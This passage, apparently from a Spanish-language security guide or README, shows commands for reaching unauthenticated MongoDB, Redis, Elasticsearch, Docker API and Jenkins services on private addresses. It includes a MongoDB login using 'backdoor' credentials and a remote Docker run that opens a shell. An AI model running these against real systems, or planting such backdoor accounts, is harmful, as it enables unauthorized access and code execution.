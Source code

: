 
## 🗄️ ¿CÓMO ACCEDER A SERVICIOS VULNERABLES?

### **MongoDB (Puerto 27017)** 🍃
```bash
# Conectar directamente
mongo mongodb://192.168.1.100:27017/admin

# Con credenciales de backdoor
mongo mongodb://backdoor_192_168_1_100:Mongo_100!@192.168.1.100:27017/admin
```

### **Redis (Puerto 6379)** 🔴
```bash
# Conectar directamente
redis-cli -h 192.168.1.101 -p 6379

# Ejecutar comandos
redis-cli -h 192.168.1.101 -p 6379 ping
redis-cli -h 192.168.1.101 -p 6379 keys *
```

### **Elasticsearch (Puerto 9200)** 🔍
```bash
# Verificar estado
curl -X GET http://192.168.1.102:9200/_cluster/health

# Buscar datos
curl -X POST http://192.168.1.102:9200/_search
```

### **Docker (Puerto 2375)** 🐳
```bash
# Ver información
curl -X GET http://192.168.1.103:2375/version

# Ejecutar contenedor
docker -H tcp://192.168.1.103:2375 run -it --rm alpine sh
```

### **Jenkins (Puerto 8080)** 🔧
```
# Acceder a la interfaz web
http://192.168.1.104:8080/

# Script console
http://192.168.1.104:8080/script
```

---

## 🌐 ¿CÓMO ACCEDER A REDES RELACIONADAS?
